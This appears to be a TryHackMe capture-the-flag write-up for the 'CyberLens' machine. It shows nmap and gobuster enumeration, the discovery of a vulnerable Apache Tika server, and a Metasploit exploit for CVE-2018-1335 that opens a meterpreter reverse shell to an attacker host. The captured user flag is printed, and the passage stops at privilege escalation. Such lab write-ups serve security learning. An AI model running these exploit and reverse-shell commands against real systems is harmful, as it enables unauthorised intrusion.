 So, simply visit the IP that you get form the machine and you get to a website where you can upload images and get it's metadata.

We do usual stuff, `nmap -sV -sC cyberlens.thm -vv`
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-31 19:48 EDT
Nmap scan report for cyberlens.thm (10.201.76.93)
Host is up (0.32s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
80/tcp   open  tcpwrapped
|_http-title: CyberLens: Unveiling the Hidden Matrix
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped
3389/tcp open  tcpwrapped
|_ssl-date: 2025-07-31T23:57:40+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-31T23:57:26+00:00
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-07-30T23:43:27
|_Not valid after:  2026-01-29T23:43:27
5985/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=7/31%OT=5985%CT=1%CU=40113%PV=Y%DS=5%DC=T%G=Y%TM=688C0
OS:2F5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=RD%II=I%SS=S%
OS:TS=U)SEQ(SP=104%GCD=1%ISR=10F%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR
OS:=10A%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=10C%TI=RD%CI=I%II=RI%TS=
OS:U)SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=RD%TS=U)OPS(O1=M508NW8NNS%O2=M508NW8N
OS:NS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NNS%O6=M508NNS)WIN(W1=FFFF%W2=FFFF
OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M508NW8NNS%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 5 hops

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-31T23:57:30
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   501.15 ms 10.2.0.1
2   ... 4
5   697.25 ms cyberlens.thm (10.201.76.93)

OS and Service detection performed. Please report any incorrect
```

Nothing much directly so we move on to `GoBuster`. Do some path traversal and see if we can find and access any files.
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.201.76.93 -e`

This will give us a lot of interesting stuff. More importantly it give us paths such as `/images`, `/js` and `/css`. I think the `/js` would be interesting. `/images` shows images that are being used across the website.
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.76.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.201.76.93/.htaccess            (Status: 403) [Size: 199]
http://10.201.76.93/.htpasswd            (Status: 403) [Size: 199]
http://10.201.76.93/Images               (Status: 301) [Size: 235] [--> http://10.201.76.93/Images/]
http://10.201.76.93/aux                  (Status: 403) [Size: 199]
http://10.201.76.93/cgi-bin/             (Status: 403) [Size: 199]
http://10.201.76.93/com3                 (Status: 403) [Size: 199]
http://10.201.76.93/com2                 (Status: 403) [Size: 199]
http://10.201.76.93/com1                 (Status: 403) [Size: 199]
http://10.201.76.93/com4                 (Status: 403) [Size: 199]
http://10.201.76.93/con                  (Status: 403) [Size: 199]
http://10.201.76.93/css                  (Status: 301) [Size: 232] [--> http://10.201.76.93/css/]
http://10.201.76.93/images               (Status: 301) [Size: 235] [--> http://10.201.76.93/images/]
http://10.201.76.93/js                   (Status: 301) [Size: 231] [--> http://10.201.76.93/js/]
http://10.201.76.93/lpt1                 (Status: 403) [Size: 199]
```

`http://10.201.76.93/js/image-extractor.js` here, you can see that there is port **61777** and pat `/meta` that is being used internally.

![[Pasted image 20250731201533.png]]

Accessing this gives you a Apache 1.7 Tika server! Boom. Now let's see if there is any security vulnerability for this version of Apache server!

One google search and we have [RCE (CVE-2018–1335)](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/)  
and https://www.exploit-db.com/exploits/47208. Now we use the `metasploit` module. It has a module for this CVE so that's convenient!

We can do `searchsploit tika` it will give you the details of all tika exploits that are present on this system. It will tell exact path if you use `-m`. 
```
──(truelyyours㉿kali)-[~/tryhackme/CyberLens]
└─$ searchsploit tika     
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
Apache Tika 1.15 - 1.17 - Header Command Injection (Metasploit)               | windows/remote/47208.rb
Apache Tika-server < 1.18 - Command Injection                                 | windows/remote/46540.py
Joomla! Component com_cartikads 1.0 - Arbitrary File Upload                   | php/webapps/10984.txt
Mitra Informatika Solusindo cart - SQL Injection                              | php/webapps/5214.txt
------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

We can then do `metasploit` exploit as follows:
```bash
msfconsole
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.76.93
set RPORT 61777
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
set LPORT <your_listener_port>
exploit
```
Run this and you'll have the reverse shell! Nice!
![[Pasted image 20250731203344.png]]

Go to `C:\Users\CyberLens\Desktop` and the flag is in `user.txt`.
`THM{T1k4-CV3-f0r-7h3-w1n}`

And we have the user flag 🎉😎!

Now we'll try to get root! A quick and dirty `getsystem` from `meterpreter` didn’t work, so I’ll have to get more inventive.


